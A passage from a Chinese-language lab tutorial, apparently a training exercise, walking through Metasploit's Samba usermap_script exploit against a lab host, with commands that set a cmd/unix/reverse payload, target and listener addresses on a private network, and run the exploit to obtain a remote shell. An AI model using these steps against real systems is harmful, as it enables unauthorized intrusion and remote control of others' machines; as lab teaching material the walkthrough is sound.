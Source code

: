 为了能够用好攻击模块，我们需要进行一些相应的配置。

首先，告诉系统我们将要使用的攻击模块：

```
msf > use exploit/multi/samba/usermap_script
```

查看攻击负荷（payload）列表，在这里 payload 用来在目标被攻陷后创建后门 Shell：

```
msf > show payloads
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430336686.png/wm)

设置 payload 为 `cmd/unix/reverse` 类型，通过 telnet 创建远程 Shell：

```
msf > set payload cmd/unix/reverse
```

查看当前的配置参数，这里会列出当前我们要使用的攻击模块和 payload 的相关参数，包括攻击的目标地址，攻击的目标端口以及后门 Shell 监听的端口号等：

```
msf > show options
```

参数列表截图：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430349262.png/wm)

补充设置参数，需要设置攻击目标和攻击机本地的 IP 地址，再次查看先前的扫描结果，Samba 3.0.20 监听在 445 端口上，所以我们需要修改攻击的端口号：

```
msf > set RHOST 192.168.122.102
msf > set LHOST 192.168.122.101
msf > set RPORT 445
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430357904.png/wm)

设置完成后再次查看配置参数：

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430365432.png/wm)

### 9.4 执行攻击

执行攻击比较简单，只需要输入 `exploit` 命令就可以了：

```
msf > exploit
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid13labid2303timestamp1479430374329.png/wm)

根据输出的信息可以看出我们已经攻击成功建立并连接到了 Shell。


### 9.5 验证是否攻击成功
